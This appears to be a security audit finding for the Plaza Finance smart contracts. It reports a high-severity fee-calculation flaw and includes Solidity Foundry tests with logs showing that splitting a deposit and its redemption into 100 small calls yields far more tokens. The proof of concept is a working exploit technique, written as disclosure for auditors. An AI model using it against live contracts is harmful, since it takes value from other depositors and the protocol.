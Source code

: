 Winning Rosewood Opossum

High

# Users can perform fee manipulations to limit their fee exposure

### Summary

The incorrect fee subtraction in the `simulateCreate` and `simulateRedeem` functions will allow fee manipulations.

### Root Cause

We can see that the fee is removed from the poolReserves in both `simulateCreate` and `simulateRedeem` functions. However since fee is derived from the current reserve token balance, this will mean that fee will be subject to change whenever poolReserves is updated. 
For example if the fee is 10% with the current implementation upon depositing these 10% will be removed from the poolReserves:
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Pool.sol#L433
However a user could take advantage of the fact that fees are increased anytime the poolReserves increases leading to a decreased price per share and manipulate create create, by splitting the amount they wanted to deposit into multiple small amounts.

### Internal Pre-conditions

1.There should be an accumulated fee in the PoC below the fee will be 10% accumulated for 1 year which has not been claimed


### External Pre-conditions

N/A

### Attack Path

1. The attacker will want to deposit 1e18 to mint leverage tokens.
2. They will simply split the 1e18 tokens into 100 portions of 0.01e18

### Impact

Users will be able to manipulate the `create` and `redeem` functions to extract more value.

### PoC

Firstly run `testManipulationFeeLogic1` in the Pool.t.sol and change the fee to 100000 or you can use the test environment in the following link:
https://gist.github.com/novaman33/569c8867dfe6f4cae4ef392651893350
```solidity
 function testManipulationFeeLogic1() public {
        vm.startPrank(governance);
        Token rToken = Token(params.reserveToken);
        rToken.mint(governance, 600e18);
        rToken.approve(address(poolFactory), 600e18);
        setEthPrice(3000e8); //set the price to $300
        // Create salt to create the pool at a different address
        string memory salt = "tester";

        // Create pool and approve deposit amount
        Pool _pool = Pool(poolFactory.createPool(params, 6e18, 140e18, 1e18, "", salt, "", "", false));
        vm.warp(365 days);
        setEthPrice(3000e8);
        address bob = address(0x01);
        rToken.mint(bob, 2e18);
        vm.stopPrank();
        vm.startPrank(bob);

        rToken.approve(address(_pool), 2e18);
        _pool.create(Pool.TokenType.LEVERAGE, 2e18, 0);

        uint256 bobBalanceLeverage = LeverageToken(_pool.lToken()).balanceOf(bob);
        console.log(bobBalanceLeverage);
        uint256 sumRedeemed = 0;
        sumRedeemed = _pool.redeem(Pool.TokenType.LEVERAGE, bobBalanceLeverage, 0);

        console.log(sumRedeemed);
    }
```
The output for the leverage tokens created and then redeemed is the following:
```bash
[PASS] testManipulationFeeLogic1() (gas: 1968178)
Logs:
  1851851845564700524
  1644444438861454065
```
Now you can run the `testManipulationFeeLogic3` which splits the total amount into multiple smaller ones in order to minimize the fee exposure:
```solidity
 function testManipulationFeeLogic3() public {
        vm.startPrank(governance);
        Token rToken = Token(params.reserveToken);
        rToken.mint(governance, 600e18);
        rToken.approve(address(poolFactory), 600e18);
        setEthPrice(3000e8); //set the price to $300
        // Create salt to create the pool at a different address
        string memory salt = "tester";

        // Create pool and approve deposit amount
        Pool _pool = Pool(poolFactory.createPool(params, 6e18, 140e18, 1e18, "", salt, "", "", false));
        vm.warp(365 days);
        setEthPrice(3000e8);
        address bob = address(0x01);
        rToken.mint(bob, 2e18);
        vm.stopPrank();
        vm.startPrank(bob);

        rToken.approve(address(_pool), 2e18);
        // _pool.create(Pool.TokenType.LEVERAGE, 2e18, 0);

        for (uint256 i = 0; i < 100; i++) {
            _pool.create(Pool.TokenType.LEVERAGE, 2e18 / 100, 0);
        }
        uint256 bobBalanceLeverage = LeverageToken(_pool.lToken()).balanceOf(bob);
        console.log(bobBalanceLeverage);
        uint256 sumRedeemed = 0;
        //sumRedeemed = _pool.redeem(Pool.TokenType.LEVERAGE, bobBalanceLeverage, 0);
        for (uint256 i = 0; i < 100; i++) {
            sumRedeemed += _pool.redeem(Pool.TokenType.LEVERAGE, bobBalanceLeverage / 100, 0); //999 999 999 999 999 999
        }

        console.log(sumRedeemed);
        //@audit by splitting withdraws
    }
```
The output will be the following:
```bash
[PASS] testManipulationFeeLogic3() (gas: 8987883)
Logs:
  2691934180321350574
  1990907274239043705
```
As you can see the amount minted is drastically increased.


### Mitigation

_No response_